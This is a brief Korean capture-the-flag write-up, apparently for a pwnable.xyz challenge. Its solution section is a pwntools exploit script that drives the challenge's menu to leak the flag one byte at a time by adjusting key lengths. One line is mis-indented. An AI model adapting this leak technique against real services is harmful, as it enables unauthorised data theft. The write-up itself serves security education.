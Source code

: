 <br><br>

### 3. 풀이

최종 익스코드는 다음과 같다

    from pwn import *
    
    #context.log_level='debug'
    p = remote("svc.pwnable.xyz",30006)
    #p=process('./challenge')
    #gdb.attach(p)
    def generateKey(size):
    	p.recvuntil('> ')
    	p.sendline("1")
    
    	if size==64: 
    		p.recvuntil("key len: ")
    		p.sendline(str(size))
    	else:
    		p.recvuntil("key len: ")
                    p.sendline(str(size+1))
    
    def load_flag():
    	p.recvuntil("> ")
    	p.sendline("2")
    
    def print_flag(index):
    	p.recvuntil("> ")
    	p.sendline("3")
    	
    	p.recvuntil("instead? ")
    	
    	if index=='y': 
    		p.sendline("y")
    		p.recvuntil("comment: ")
    		p.sendline("aaaaaaaa")
    	else:
    		p.sendline("n")
    
    def main():
    	flag=1
    	size=0
    	tmp=' '
    	while 1:
    		if flag==1:
    			print_flag('y')
    			generateKey(64)
    			flag=0
    		else:
    			generateKey(size)
    			load_flag()
    			print_flag('n')
    			tmp=tmp+p.recv(64)[size+1]
    			print("%s"%tmp),
    			size=size+1
    
    		if size==65:
    			break;
    
    if __name__ == '__main__':
    	main()

<br><br>

### 4. 몰랐던 개념

- None